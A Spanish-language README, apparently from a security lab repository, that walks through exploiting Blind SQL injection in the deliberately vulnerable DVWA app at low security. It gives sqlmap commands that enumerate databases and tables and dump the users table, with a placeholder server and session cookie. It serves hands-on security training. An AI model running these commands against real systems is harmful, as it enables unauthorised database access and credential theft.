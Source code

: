# Vulnerabilidad de SQL Injection (Blind) - Nivel Bajo

Este README describe brevemente la vulnerabilidad de SQL Injection (Blind) y cómo explotarla en el nivel de seguridad Bajo.

## Resumen de la Vulnerabilidad de SQL Injection (Blind)

SQL Injection (SQLi) Blind es una variación de SQL Injection donde el atacante no recibe mensajes de error detallados de la base de datos. La información se infiere observando el comportamiento de la aplicación en respuesta a inyecciones SQL, utilizando técnicas basadas en booleanos o en tiempo.

## Explotación de SQL Injection (Blind) Paso a Paso - Nivel de Seguridad Bajo

En el nivel de seguridad bajo, la aplicación es completamente vulnerable a la inyección SQL Blind y no implementa ninguna medida de seguridad.

### Explotación Automatizada con sqlmap

sqlmap es una herramienta que automatiza la detección y explotación de SQLi Blind.

Para tener la información necesaria utilizamos la información del navegador o la optenemos haciendo una captura con burp suite

![imagen de la vulnerabilidad SQL Injection Blind 1](../../assets/SQLInjectionBlindLow01.png)

![imagen de la vulnerabilidad SQL Injection Blind 2](../../assets/SQLInjectionBlindLow02.png)

1.  **Construir el comando sqlmap para enumerar las bases de datos:**
    ```bash
    sqlmap --url="http://<IP_del_servidor>/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=<tu_PHPSESSID>; security=low" --data="id=1&Submit=Submit" -p id --dbs
    ```
    * `--url`: Especifica la URL vulnerable.
    * `--cookie`: Proporciona la cookie de sesión.
    * `--data`: Especifica los datos POST (si aplica).
    * `-p id`: Indica el parámetro a probar.
    * `--dbs`: Le dice a sqlmap que enumere las bases de datos.

![imagen de la vulnerabilidad SQL Injection Blind 3](../../assets/SQLInjectionBlindLow03.png)

2.  **Ejecutar el comando sqlmap:** sqlmap probará varias técnicas de inyección Blind.

3.  **Analizar los resultados:** sqlmap mostrará las bases de datos encontradas (ej: `dvwa`, `information_schema`).

4.  **Enumerar las tablas de una base de datos específica (ej: `dvwa`):**
    ```bash
    sqlmap --url="http://<IP_del_servidor>/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=<tu_PHPSESSID>; security=low" --data="id=1&Submit=Submit" -p id -D --tables --batch --threads 5
    ```
    * `--tables`: Le dice a sqlmap que enumere las tablas.
    * `--batch`: Responde automáticamente a las preguntas.
    * `--threads 5`: Utiliza múltiples hilos.

![imagen de la vulnerabilidad SQL Injection Blind 4](../../assets/SQLInjectionBlindLow04.png)

5.  **Extraer la información de una tabla específica (ej: `users`):**
    ```bash
    sqlmap --url="http://<IP_del_servidor>/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=<tu_PHPSESSID>; security=low" --data="id=1&Submit=Submit" -p id -T users --batch --threads 5 --dump
    ```
    * `-T users`: Especifica la tabla.
    * `--dump`: Le dice a sqlmap que vuelque el contenido.

![imagen de la vulnerabilidad SQL Injection Blind 5](../../assets/SQLInjectionBlindLow05.png)

![imagen de la vulnerabilidad SQL Injection Blind 6](../../assets/SQLInjectionBlindLow06.png)

En resumen, la explotación de SQL Injection (Blind) en el nivel bajo se realiza manualmente mediante la observación del tiempo de respuesta o automáticamente utilizando herramientas como sqlmap para inferir la estructura y el contenido de la base de datos sin recibir errores directos.